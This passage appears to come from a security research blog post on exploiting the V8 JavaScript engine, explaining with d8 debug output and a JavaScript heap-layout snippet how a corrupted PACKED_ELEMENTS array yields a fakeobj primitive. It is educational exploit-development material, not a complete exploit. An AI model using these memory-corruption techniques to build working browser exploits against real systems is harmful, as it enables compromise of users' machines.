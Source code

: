 ![elements_kind](/images/swimming-in-a-sea-of-nodes/elements_kind.png)

```text
d8> var objects = new Array(new Object())
d8> %DebugPrint(objects)
DebugPrint: 0xd79e750aee9: [JSArray]
 - elements: 0x0d79e750af19 <FixedArray[1]> {
           0: 0x0d79e750aeb1 <Object map = 0x19c550d80451>
 }
0x19c550d82d91: [Map]
 - elements kind: PACKED_ELEMENTS
```

Therefore if you can corrupt the content of an array of `PACKED_ELEMENTS`, you can put in a pointer to a crafted object. This is basically the idea behind the [fakeobj primitive](http://www.phrack.org/papers/attacking_javascript_engines.html). The idea is to simply put the address `backing_store+1` in this array (the original pointer is not tagged, v8 expect pointers to JavaScript objects to be tagged). Let's first simply write the value `0x4141414141` in the controlled memory. 

Indeed, we know that the very first field of any object is a a pointer to a `map` (long story short, the map is the object that describes the type of the object. Other engines call it a `Shape` or a `Structure`. If you want to know more, just read [the previous post on SpiderMonkey](https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/#shapes) or [this blog post](https://mathiasbynens.be/notes/shapes-ics)).

Therefore, if v8 indeed considers our pointer as an object pointer, when trying to use it, we should expect a crash when dereferencing the `map`.

Achieving this is as easy as allocating an array with an object pointer, looking for the index to the object pointer, and replacing it by the (tagged) pointer to the previously leaked `backing_store`.

```javascript
let arr = new Array(MAGIC,MAGIC,MAGIC);
arr2 = Array.of(1.2); // allows to put the JSArray *before* the fixed arrays
evil_ab = new ArrayBuffer(AB_LENGTH);
packed_elements_array = Array.of(MARK1SMI,Math,MARK2SMI);
```

Quickly check the memory layout.
